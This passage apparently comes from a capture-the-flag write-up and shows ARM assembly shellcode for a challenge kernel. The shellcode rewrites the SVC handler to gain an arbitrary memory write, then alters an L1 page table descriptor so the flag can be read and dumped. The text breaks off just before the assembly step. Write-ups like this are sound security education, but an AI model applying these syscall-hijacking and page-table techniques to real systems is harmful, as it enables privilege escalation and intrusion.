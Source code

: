 After this, I decided to read in the task name from the exploit and trigger the final schedule call:

```asm
done:
        @ Signal Done to get our new instructions         
        mov r3, #68
        str r3, [sp]
        mov r3, #0x0A
        str r3, [sp, #0x01]
        mov r1, sp
        mov r2, #0x2
        bl write

        @ Read instructions to put at 0x8
        mov r1, sp
        mov r2, #0x10
        bl read


        mov r1, sp
        ldr r2, =#0x04400000
        ldr r3, =#0x4bb00
        bl sched
```

After this point, our rewritten SVC handler would be ready to execute. I decided to replace it by the following code:

```asm
str	r7, [r8, #4]
ldr	pc, [pc, #20]	; 0x28
```

This effectively gives us an arbitrary write using r7 and r8, and then calls the original syscall handler. I used this to change an L1 page table descriptor to be able to read the flag, and then dump it using the write syscall:

```asm
        @Invalid syscall should result in a write to memory
        ldr r7, =#0x04000c03
        ldr r8, =#0x2a00140
        sub r8, r8, #0x4
        
        ldr r1, =#0x05000000
        mov r2, #0x20
        bl write


end:
        bl rand
        b end
```

We then assemble the shellcode and extract the binary:
